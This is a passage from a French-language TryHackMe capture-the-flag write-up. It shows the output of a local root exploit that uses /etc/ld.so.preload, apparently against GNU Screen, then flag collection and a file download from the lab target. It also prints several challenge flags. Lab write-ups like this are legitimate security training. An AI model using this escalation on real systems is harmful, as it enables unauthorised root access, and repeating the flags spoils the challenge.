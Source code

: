 ```bash
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-ramen.

# whoami
root
```

On copie l'exploit dans la michine cible, on l'exécute.  

```bash
# cd /root/
# ls
flag  king.txt	koth
# cat flag
thm{9f1ee18d3021d135b03b943cc58f34db}
```

Dans le répertoire root on trouve un autre flag : thm{9f1ee18d3021d135b03b943cc58f34db}

```bash
# cd tryhackme
# ls
flag7  img  img.jpg
# cat flag7
thm{5a926ab5d3561e976f4ae5a7e2d034fe}

# cd /var
# cat flag.txt
thm{0c48608136e6f8c86aecdb5d4c3d7ba8}
```

Il y a un autre flag dans tryhackme et var.  

```bash
# find / -name *flag* -type f -exec grep -E "thm{" '{}' \; 2>/dev/null                                             
thm{9f1ee18d3021d135b03b943cc58f34db}
thm{5a926ab5d3561e976f4ae5a7e2d034fe}
thm{7baf5aa8491a4b7b1c2d231a24aec575}
thm{58a3cb46855af54d0660b34fd20a04c1}
thm{0c48608136e6f8c86aecdb5d4c3d7ba8}
```

Il y une méthode plus simple pour avoir les flags si ont connais un morceau du flag.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget http://kothfood.thm:16109/
--2021-07-26 19:24:22--  http://kothfood.thm:16109/
Résolution de kothfood.thm (kothfood.thm)… 10.10.202.39
Connexion à kothfood.thm (kothfood.thm)|10.10.202.39|:16109… connecté.
requête HTTP transmise, en attente de la réponse… 200 OK
Taille : non indiqué [image/jpeg]
Sauvegarde en : « index.html »

index.html                                                      [ <=>                                                                                                                                      ] 372,38K  1,85MB/s    ds 0,2s    

2021-07-26 19:24:23 (1,85 MB/s) - « index.html » sauvegardé [381312]

tim@kali:~/Bureau/tryhackme/write-up$ file index.html 
index.html: JPEG image data, JFIF standard 1.01, resolution (DPI), density 72x72, segment length 16, baseline, precision 8, 1350x900, components 3

tim@kali:~/Bureau/tryhackme/write-up$ mv index.html image.jpg
```